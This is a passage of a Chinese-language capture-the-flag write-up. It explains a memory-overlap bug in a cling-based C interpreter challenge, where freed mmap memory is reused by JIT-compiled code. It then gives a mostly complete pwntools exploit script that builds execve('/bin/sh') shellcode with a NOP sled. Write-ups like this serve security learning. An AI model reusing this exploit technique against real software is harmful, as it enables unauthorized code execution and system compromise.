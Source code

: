 會透過 `mmap()` 申請記憶體空間、使用 JIT 將 function code 轉成 asm insn，並且大小同樣為 **0x1000** (可以在 `mmap()` 下斷點得知)。若在先前有釋放相同大小的記憶體，會優先得到那塊記憶體，此時 `buf` 指向的記憶體區塊會與 `map_func()` 得到的相同，達成 memory overlap。因為能控制 page prot，因此我們的目標設置為執行任意 shellcode，可是我們不能很好地利用定義的 `map_func()` 來對現有的 asm 做操作，於是可以透過在 `munmap()` 一次此記憶體區塊，透過 **create buf** 在取得一樣的記憶體區塊，並且此時可以寫任意值到裡面：

```c
...
for (int i = 0; i < n_elem; i++) {
	if (scanf("%llu", &buf[i]) != 1) return;
}
...
```

於是透過 **gdb** 找到 function 進入點，將後續的 insn 改成 `execve("/bin/sh", NULL, NULL)` 即可，exploit 如下：

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

r = process(['/bin/sh', '-c', 'cat ./chall.c - | ./cling/bin/cling'])

def create(size, elems):
    assert(size > 0 and size <= 0x200)
    r.sendlineafter("> ", '1')
    r.sendlineafter("size? >", str(size))
    for elem in elems:
        r.sendline(str(elem))

def protect(rr, w, x):
    rr = 'y' if rr else 'n'
    w = 'y' if w else 'n'
    x = 'y' if x else 'n'
    r.sendlineafter("> ", '2')
    r.sendlineafter('read? >', rr)
    r.sendlineafter('write? >', w)
    r.sendlineafter('exec? >', x)

def delete():
    r.sendlineafter("> ", '3')

def set_map(func):
    r.sendlineafter("> ", '4')
    r.sendlineafter('Give me your map function body > ', func)
    #r.recvuntil('map_func(42) = ')

def run_map(): # run with elems
    r.sendlineafter("> ", '5')

create(1, [1])
delete()
set_map('x+1')
delete()

shellcode = asm(shellcraft.sh())
shellcodes = [shellcode[i:i+8] for i in range(0, len(shellcode), 8)]
sc_u64 = []

for sc in shellcodes:
    sc_u64.append(u64(sc))

payload = [0x9090909090909090]*((0xa0 // 8) + 1) + sc_u64
```